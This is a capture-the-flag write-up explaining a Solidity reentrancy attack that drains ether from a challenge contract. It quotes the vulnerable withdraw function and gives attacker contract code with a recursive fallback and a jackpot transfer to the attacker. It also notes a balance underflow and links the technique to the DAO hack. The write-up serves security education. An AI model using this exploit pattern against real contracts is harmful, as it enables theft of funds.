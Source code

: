 # Get Rich

This challenge gave us a smart contract and an api to interact with the
blockchain it was running on. Our goal is to drain the smart contract of funds.

Note: due to inefficiencies and issues with my code, I will not use my code, but I will instead explain the solution published by the creator of the challenge: https://pastebin.com/KXAuwRXS.

I used remix to edit the attacking smart contract: https://remix.ethereum.org/

Looking at the solidity contract given to us, the only line that stood out to me was line 62: `msg.sender.call.value(amount)()`. If it is returning ether to a payable smart contract, it will wait for the smart contract to finish executing the code in its fallback function before continuing, when it subtracts from the attacker's balance.
```js
function withdraw(uint256 amount) onlyWithMoney(amount) {
    require(amount > 0);
    msg.sender.call.value(amount)(); // This is called before the next line
    balanceOf[msg.sender]-=amount; // If this function is called recursively, this won't happen until too late!
    Withdraw(msg.sender, amount);
}
```
If an attacker smart contract recursively calls the withdraw() function, it will not subtract from the attacker’s balance until after refunding each recursive call. This means that an attacker can withdraw all the ether in the victim smart contract.

```js
// Start the attack
function attack()  {
    performAttack = true;
    dctf.invest.value(1)(this); // Need to invest a bit to get started.
    dctf.withdraw(1);
}

// Fallback (Called when the contract is paid and another function is not
called)
function() payable {
    if (performAttack) {
        performAttack = false;
        dctf.withdraw(1); // Recursively called
    }
}
```

After successfully exploiting the contract, the flag can be obtained by
transferring the ether to an owned wallet and calling get_flag.

```js
function getJackpot(){
    dctf.withdraw(dctf.balance); // Withdraw monies just in case
    bool res = owner.send(this.balance); // Send all the ether to you
    performAttack = true;
}
```

Due to a bug in my code, I did not actually withdraw any ether, but I did underflow my smart contract’s balance. I then transferred my balance (~1e77) to my wallet and withdrew 100 ether from the victim contract.

It turns out that this is the same exploit used during the DAO hack.

